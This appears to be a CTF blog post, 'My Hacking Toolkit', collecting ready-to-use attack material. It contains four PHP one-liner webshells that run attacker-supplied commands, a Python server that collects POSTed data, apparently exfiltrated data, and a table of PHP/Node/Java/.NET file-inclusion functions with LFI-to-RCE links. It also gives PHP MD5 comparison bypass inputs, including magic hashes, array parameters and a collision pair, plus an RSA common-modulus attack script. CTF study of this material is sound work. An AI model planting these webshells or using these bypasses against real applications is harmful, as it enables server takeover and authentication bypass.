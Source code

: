 ```yaml
---
abbrlink: 4e56d65
categories:
    - - Hacking
cover: https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/24/9/Blog_cover%20(17)%20(1)_3e1f0c91c61253af1f2670f4341e7d33.jpg
date: "2024-09-03T23:50:41.047232+08:00"
sticky: 1337
tags: CTF
title: My Hacking Toolkit
updated: "2024-09-04T16:33:10.514+08:00"
---
```


# Web

## Temp Server (Python)

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

## One-liner Trojan (Backdoor, Webshell)

```php
<?php @eval($_POST['shell']);?>
<?php @system($_POST["cmd"])?>
<?php passthru($_GET['cmd']); ?>
<? system($_GET["cmd"]); ?>
```



## LFI & RFI

### Dangerous Functions

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | ---------------- | ----------- | -------------- |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` | ✅                | ✅           | ✅              |
| `require()`/`require_once()` | ✅                | ✅           | ❌              |
| `file_get_contents()`        | ✅                | ❌           | ✅              |
| `fopen()`/`file()`           | ✅                | ❌           | ❌              |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              | ✅                | ❌           | ❌              |
| `fs.sendFile()`              | ✅                | ❌           | ❌              |
| `res.render()`               | ✅                | ✅           | ❌              |
| **Java**                     |                  |             |                |
| `include`                    | ✅                | ❌           | ❌              |
| `import`                     | ✅                | ✅           | ✅              |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            | ✅                | ❌           | ❌              |
| `@Html.RemotePartial()`      | ✅                | ❌           | ✅              |
| `Response.WriteFile()`       | ✅                | ❌           | ❌              |
| `include`                    | ✅                | ✅           | ✅              |

### LFI2RCE

-   [Advanced Local File Inclusion to RCE in 2022](https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/)
-   [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/CX330Blake/PHP_INCLUDE_TO_SHELL_CHAR_DICT)

## PHP Hash Bypass

### Scientific Notation

#### Numbers

```txt
240610708 0e462097431906509019562988736854 
314282422 0e990995504821699494520356953734 
571579406 0e972379832854295224118025748221 
903251147 0e174510503823932942361353209384 
1110242161 0e435874558488625891324861198103 
1320830526 0e912095958985483346995414060832 
1586264293 0e622743671155995737639662718498 
2302756269 0e250566888497473798724426794462 
2427435592 0e067696952328669732475498472343 
2653531602 0e877487522341544758028810610885 
3293867441 0e471001201303602543921144570260 
3295421201 0e703870333002232681239618856220 
3465814713 0e258631645650999664521705537122 
3524854780 0e507419062489887827087815735195 
3908336290 0e807624498959190415881248245271 
4011627063 0e485805687034439905938362701775 
4775635065 0e998212089946640967599450361168 
4790555361 0e643442214660994430134492464512 
5432453531 0e512318699085881630861890526097 
5579679820 0e877622011730221803461740184915 
5585393579 0e664357355382305805992765337023 
6376552501 0e165886706997482187870215578015
7124129977 0e500007361044747804682122060876 
7197546197 0e915188576072469101457315675502 
7656486157 0e451569119711843337267091732412
```

#### String

```txt
aaaXXAYW 0e540853622400160407992788832284 
aabg7XSs 0e087386482136013740957780965295 
aabC9RqS 0e041022518165728065344349536299
```

#### Original Scientific Notation

```txt
0e215962017 0e291242476940776845150308577824
```

### Array

In PHP, the default argument of the `md5()` function is string, when the argument is an array, the function will return `null`. 

```txt
?user[]=1&pass[]=1
```

### Collision

```txt
user=%D89%A4%FD%14%EC%0EL%1A%FEG%ED%5B%D0%C0%7D%CAh%16%B4%DFl%08Z%FA%1DA%05i%29%C4%FF%80%11%14%E8jk5%0DK%DAa%FC%2B%DC%9F%95ab%D2%09P%A1%5D%12%3B%1ETZ%AA%92%16y%29%CC%7DV%3A%FF%B8e%7FK%D6%CD%1D%DF/a%DE%27%29%EF%08%FC%C0%15%D1%1B%14%C1LYy%B2%F9%88%DF%E2%5B%9E%7D%04c%B1%B0%AFj%1E%7Ch%B0%96%A7%E5U%EBn1q%CA%D0%8B%C7%1BSP pass=%D89%A4%FD%14%EC%0EL%1A%FEG%ED%5B%D0%C0%7D%CAh%164%DFl%08Z%FA%1DA%05i%29%C4%FF%80%11%14%E8jk5%0DK%DAa%FC%2B%5C%A0%95ab%D2%09P%A1%5D%12%3B%1ET%DA%AA%92%16y%29%CC%7DV%3A%FF%B8e%7FK%D6%CD%1D%DF/a%DE%27%29o%08%FC%C0%15%D1%1B%14%C1LYy%B2%F9%88%DF%E2%5B%9E%7D%04c%B1%B0%AFj%9E%7Bh%B0%96%A7%E5U%EBn1q%CA%D0%0B%C7%1BSP
```

### Others (References)

- [PHP MD5 Bypass Trick](https://qftm.github.io/2020/08/23/php-md5-bypass-audit/#toc-heading-26)
- [[CTF]CTF中if (md5(md5(\$\_GET[‘a’])) == md5(\$\_GET[‘b’])) 的绕过](https://blog.csdn.net/baguangman5501/article/details/102031546)

# Crypto

## Common Modulus Attack

```python
from Crypto.Util.number import long_to_bytes

n = 8043524339665486501722690364841854181558012095441297536641336786057021881436981279151373985115124256457664918399612791182378270114245970486016546496099141
e1 = 863047
c1 = 977794351462943753500623403456170325029164798178157637276767524847451843872628142596652557213651039320937257524442343930998122764638359874102209638080782
e2 = 995023
c2 = 7803335784329682230086969003344860669091120072205053582211253806085013270674227310898253029435120218230585288142781999838242977459669454181592089356383378


def egcd(a: int, b: int) -> tuple[int, int, int]:
    if a == 0:
        return (b, 0, 1)
    g, y, x = egcd(b % a, a)
    return (g, x - (b // a) * y, y)


def inverse(a: int, b: int) -> int:
    g, x, y = egcd(a, b)  # ax + by = g
    if g == 1:
        return x % b
    raise ValueError("base is not invertible for the given modulus.")


g, x, y = egcd(e1, e2)

if x < 0:
    c1_inv = inverse(c1, n)
    c1 = pow(c1_inv, -x, n)
else:
    c1 = pow(c1, x, n)

if y < 0:
    c2_inv = inverse(c2, n)
    c2 = pow(c2_inv, -y, n)
else:
    c2 = pow(c2, y, n)

m = (c1 * c2) % n
print(long_to_bytes(m))
```

## Hash Collision

-   [Hash Collisions](https://github.com/CX330Blake/Hash-Collisions/)
